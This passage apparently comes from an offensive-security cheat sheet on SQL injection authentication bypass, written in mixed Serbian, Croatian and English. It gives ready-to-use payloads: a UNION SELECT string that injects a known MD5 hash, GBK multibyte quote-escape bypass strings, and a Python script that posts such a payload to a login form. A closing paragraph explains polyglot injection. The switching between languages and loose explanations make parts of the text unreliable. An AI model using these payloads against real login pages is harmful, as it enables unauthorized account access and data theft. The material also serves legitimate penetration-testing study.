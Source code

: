 Da bi se ova tehnika primenila, potrebno je prvo dobiti pravi hash koji se koristi za autentifikaciju. Zatim se taj hash ubacuje u SQL upit umesto unetog korisničkog imena i lozinke. Na taj način se zaobilazi provera autentifikacije i omogućava pristup sistemskim resursima.

Ova tehnika je vrlo opasna i može dovesti do ozbiljnog kompromitovanja sistema. Zbog toga je važno da se implementira sigurna autentifikacija koja proverava ispravnost unetih podataka i sprečava SQL Injection napade.

```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

**Preporučena lista**:

Kao korisničko ime trebate koristiti svaku liniju iz liste, a kao lozinku uvijek: _**Pass1234.**_\
_(Ove payloade također možete pronaći u velikoj listi spomenutoj na početku ovog odjeljka)_

{% file src="../../.gitbook/assets/sqli-hashbypass.txt" %}

### GBK Bypass autentifikacije

Ako se ' izbjegava, možete koristiti %A8%27, a kada se ' izbjegne, stvorit će se: 0xA80x5c0x27 (_╘'_)

```sql
%A8%27 OR 1=1;-- 2
%8C%A8%27 OR 1=1-- 2
%bf' or 1=1 -- --
```

Python skripta:

```python
import requests
url = "http://example.com/index.php"
cookies = dict(PHPSESSID='4j37giooed20ibi12f3dqjfbkp3')
datas = {"login": chr(0xbf) + chr(0x27) + "OR 1=1 #", "password":"test"}
r = requests.post(url, data = datas, cookies=cookies, headers={'referrer':url})
print r.text
```

### Poliglotna injekcija (višekontekstualna)

Polyglot injection, also known as multicontext injection, is a technique used in SQL injection attacks. It involves crafting a malicious payload that can be interpreted as valid code in multiple database management systems (DBMS). This allows the attacker to target different DBMS with a single payload, increasing the chances of a successful attack.

Polyglot injection takes advantage of the syntax and behavior differences between different DBMS. By carefully constructing the payload, the attacker can ensure that it is interpreted correctly by multiple DBMS, regardless of the specific syntax requirements of each system.

This technique is particularly useful when the attacker is unsure about the underlying DBMS used by the target application. By using a polyglot payload, the attacker can increase the likelihood of a successful SQL injection attack, regardless of the specific DBMS in use.

It is important to note that crafting a polyglot injection payload requires a deep understanding of the syntax and behavior of multiple DBMS. Additionally, the payload must be carefully constructed to avoid any syntax conflicts or errors that could prevent successful exploitation.
